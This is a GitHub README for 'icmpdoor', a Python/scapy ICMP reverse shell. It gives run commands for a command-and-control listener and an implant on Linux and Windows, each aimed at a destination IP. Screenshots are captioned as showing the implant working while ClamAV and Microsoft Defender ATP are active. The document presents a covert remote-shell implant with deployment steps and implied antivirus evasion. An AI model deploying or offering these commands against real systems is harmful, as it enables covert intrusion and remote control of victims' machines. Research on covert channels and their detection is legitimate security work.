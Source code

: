# ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Widows binary version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
